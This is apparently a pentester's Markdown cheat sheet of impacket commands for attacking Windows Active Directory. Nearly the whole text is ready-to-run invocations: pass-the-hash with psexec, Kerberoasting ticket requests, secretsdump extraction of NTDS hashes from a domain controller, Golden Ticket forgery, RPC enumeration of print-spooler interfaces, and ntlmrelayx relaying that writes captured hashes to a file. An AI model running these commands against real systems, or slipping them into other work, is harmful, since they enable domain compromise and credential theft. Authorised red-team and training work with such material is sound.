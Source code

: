 impacket

Passing the hash only works with NTLM, not NTLMv2

PSExec usage:
~~~bash
impacket-psexec "username":password@ipaddress
~~~

PSExec usage with a hash:
~~~bash
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~

Kerberoasting SPN with Valid Credentials:
~~~bash
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request -output krb5_ticket.txt
~~~

SMB Server with SMBv2 Support:
~~~bash
impacket-smbserver share 'pwd' -smb2support
~~~

RPCDump:
~~~bash
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~

Convert .kirbi to .ccache:
~~~bash
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:
~~~bash
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

Generate Golden Ticket:
~~~bash
impacket-ticketer -nthash [DA NTLM Hash] -domain-sid [Domain SID] -domain FQDN.Domain DA_User
~~~

NTLMRelayX - Relay SMB/WPAD captured hashes to a target list and create socks proxy to the hosts via SMB and create a file with the captured hashes:
~~~bash
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file Captured_Hashes.txt
~~~
